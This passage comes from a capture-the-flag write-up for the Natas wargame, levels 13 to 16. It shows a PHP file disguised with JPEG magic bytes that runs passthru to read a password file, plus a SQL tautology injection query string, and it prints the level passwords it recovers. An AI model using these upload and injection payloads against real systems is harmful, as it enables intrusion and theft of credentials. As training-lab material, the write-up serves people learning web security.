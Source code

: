 ```python
with open("script.php", "w") as f:
    f.write('\xFF\xD8\xFF\xE0')
    f.write("""<?php
passthru('cat /etc/natas_webpass/natas14');
""")
```

Uploading this file and changing the `filename` input extension to `.php` as
before prints out the password.

> Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

## 15

Level 15 features a SQL injection attack. The following query is executed
against a MySQL database:

```php
<?php
$query = "SELECT * from users where username=\""
    .$_REQUEST["username"]
    ."\" and password=\""
    .$_REQUEST["password"]."\"";
```

We can see that the `username` and `password` sections of the query string
aren't sanitised. If a request is made that returns > 0 rows, the password is
printed. Supplying the `debug` keyword in the query string prints out the query
which is to be executed, making it easier to debug.

Looking at the query, need to construct a statement which reutrns a row.

The statement:

```sql
SELECT * from users where username="" or "1"="1" and password="" or "1"="1"
```

Makes use of SQL tautologies to return rows.

We can run this command by calling the URL with the following query string:

```
?username=%22%20or%20%221%22=%221&password=%22%20or%20%221%22=%221&debug
```

Running this prints out the password.

`AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`

## 16

Level 16 also features a SQL injection attack. This time, we are presented with
a simple web app which tells the user whether a sumbitted username exists in a
database. From the source, we see that the database also contains the user's
password.


[^1]: Hacking into systems without explicit permission is illegal.